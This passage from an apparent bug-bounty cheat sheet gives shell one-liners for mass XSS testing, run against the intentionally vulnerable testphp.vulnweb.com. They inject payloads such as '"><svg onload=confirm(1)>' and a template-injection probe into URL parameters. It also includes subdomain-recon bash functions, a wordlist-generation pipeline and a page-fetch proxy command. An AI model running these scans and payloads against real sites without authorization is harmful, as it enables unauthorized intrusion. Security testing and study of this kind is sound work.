 
###  Airixss XSS 
- [Explained command]
```bash
echo testphp.vulnweb.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
```


###  FREQ XSS 
- [Explained command]
```bash
echo testphp.vulnweb.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not'
```


###  Bhedak
- [Explained command]
```bash
cat urls | bhedak "\"><svg/onload=alert(1)>*'/---+{{7*7}}"
```

###  .bashrc shortcut OFJAAAH

```bash
reconjs(){
gau -subs $1 |grep -iE '\.js'|grep -iEv '(\.jsp|\.json)' >> js.txt ; cat js.txt | anti-burl | awk '{print $4}' | sort -u >> AliveJs.txt
}
cert(){
curl -s "[https://crt.sh/?q=%.$1&output=json](https://crt.sh/?q=%25.$1&output=json)" | jq -r '.[].name_value' | sed 's/\*\.//g' | anew
}
anubis(){
curl -s "[https://jldc.me/anubis/subdomains/$1](https://jldc.me/anubis/subdomains/$1)" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | anew
}
```

###  Oneliner Haklistgen
- @hakluke

```bash
subfinder -silent -d domain | anew subdomains.txt | httpx -silent | anew urls.txt | hakrawler | anew endpoints.txt | while read url; do curl $url --insecure | haklistgen | anew wordlist.txt; done
cat subdomains.txt urls.txt endpoints.txt | haklistgen | anew wordlist.txt;
```

###  Running JavaScript on each page send to proxy. 
- [Explained command]

```bash
cat 200http | page-fetch --javascript '[...document.querySelectorAll("a")].map(n => n.href)' --proxy http://192.168.15.47:8080
```

